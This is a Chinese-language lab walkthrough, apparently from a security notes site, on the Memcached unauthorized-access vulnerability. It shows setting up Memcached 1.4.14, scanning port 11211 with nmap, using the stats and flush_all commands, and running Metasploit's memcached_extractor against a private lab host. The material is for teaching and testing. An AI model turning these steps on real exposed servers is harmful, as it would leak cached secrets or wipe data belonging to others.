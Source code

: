 # Memcached未授权访问漏洞

## 漏洞描述

Memcached是一个高速缓存系统，用于存储网络上的大量动态数据。未授权访问漏洞指的是，在没有对Memcached的访问控制的情况下，任意人可以在未经授权的情况下访问和读取存储在Memcached中的数据。这可能导致敏感信息泄露，包括用户密码、信用卡信息等。

## 环境搭建

```
wget http://memcached.org/files/old/memcached-1.4.14.tar.gz
tar -zxvf memcached-1.4.14.tar.gz
cd memcached-1.4.14.tar.gz
./configure && make && make test && sudo make install
```

启动Memcached

![image-20220726183234778](../../.gitbook/assets/image-20220726183234778.png)

## 漏洞利用

扫描端口

```
[root@localhost bin]# nmap -p 11211 -sV 192.168.32.183

Starting Nmap 6.40 ( http://nmap.org ) at 2022-07-26 06:35 EDT
Nmap scan report for 192.168.32.183
Host is up (0.000052s latency).
PORT      STATE SERVICE   VERSION
11211/tcp open  memcached Memcached 1.4.14

Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.32 seconds

```

缓存管理命令：

`stats` 命令的功能正如其名：转储所连接的 memcached 实例的当前统计数据。在下例中，执行 stats 命令显示了关于当前 memcached 实例的信息

![image-20220726183200063](../../.gitbook/assets/image-20220726183200063.png)

以上信息显示了当前的流量统计。它服务于连接数量、数据存储到缓存中、缓存命中率以及有关内存使用情况的详细信息以及通过用于存储单个项目的平板分配信息的分布。

`flush_all` 命令。这个最简单的命令仅用于清理缓存中的所有名称/值对。如果您需要将缓存重置到干净的状态。

![image-20220726183645406](../../.gitbook/assets/image-20220726183645406.png)

统计slabs信息

![image-20220726183634264](../../.gitbook/assets/image-20220726183634264.png)

使用msf找到key

```
msf6 > search memcached_extractor

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  auxiliary/gather/memcached_extractor                   normal  No     Memcached Extractor


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/gather/memcached_extractor

msf6 > use auxiliary/gather/memcached_extractor
msf6 auxiliary(gather/memcached_extractor) > show options

Module options (auxiliary/gather/memcached_extractor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    11211            yes       The target port (TCP)
   THREADS  1                yes       The number of concurrent threads (max one per host)

msf6 auxiliary(gather/memcached_extractor) > set rhosts 192.168.32.183
rhosts => 192.168.32.183
msf6 auxiliary(gather/memcached_extractor) > run

[+] 192.168.32.183:11211  - Found 0 keys
[*] 192.168.32.183:11211  - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

